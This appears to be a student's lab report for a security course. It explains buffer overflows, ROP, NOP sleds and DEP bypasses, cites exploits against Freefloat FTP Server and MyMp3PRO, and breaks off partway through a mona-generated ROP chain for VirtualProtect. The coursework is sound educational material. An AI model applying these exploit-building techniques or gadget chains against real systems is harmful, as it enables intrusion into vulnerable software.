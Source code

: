 ## Assignment 5

It uses a buffer overflow attack to initiate a ROP attack.

It uses known-location code to modify the stack and stack pointer to be
able to point it to a NOP-sled that ends in the shell code.

## Assignment 6

No, DEP is not enabled because we can write to the stack but then also
execute from it.

## Assignment 7

There are at least 2 ways that we could find to circumvent the DEP
protection. The first exploit uses the inbuilt function
`SetProcessDEPPolicy` that overrides the system set DEP policy<sup>[1](/post/adsec_pD/#c1)</sup>. The
exploit is targeted at Freefloat FTP Server 1.0 and does a DEP Bypass
with ROP<sup>[2](/post/adsec_pD/#c2)</sup>. The other exploit we found is targeted at Steinberg
MyMp3PRO 5.0 and uses a Buffer Overflow (SEH) with a DEP Bypass and ROP.
The exploit is local and as such creates a file that the program then
loads, because the program loads the MP3 files and then executes them
the DEP protection does not work.

Probably by finding a address with `SetProcessDEPPolicy` to disable the
DEP protection. There are other functions that we can use to disable DEP
protection, the Mona plugin for the Immunity debugger will help us find
a suitable ROP chain to bypass DEP.

# Part B

## Assignment 8

### Attempt 1

We ran mona in the Immunity debugger with the command:
`!mona rop -cbp ’0x00’ -m *.dll` and got the rop chain below. However,
when we ran it with the `-rva` parameter to circumvent ASLR the
execution took over 1h and we did not get any useful results.

```python
  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x75c88a06,  # POP ECX # RETN [OLEAUT32.dll] ** REBASED ** ASLR 
      0x758a0928,  # ptr to &VirtualProtect() [IAT kernel32.dll] ** REBASED ** ASLR
      0x7676fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ebp:---]
      0x766ba513,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x7618f8ab,  # & jmp esp [urlmon.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ebx:---]
      0x768d19ca,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x76c39b64,  # NEG EAX # RETN [SHELL32.dll] ** REBASED ** ASLR 
      0x7610fa47,  # XCHG EAX,EBX # RETN [urlmon.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_edx:---]
      0x759425bd,  # POP EAX # RETN [kernel32.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x768b2f3a,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
```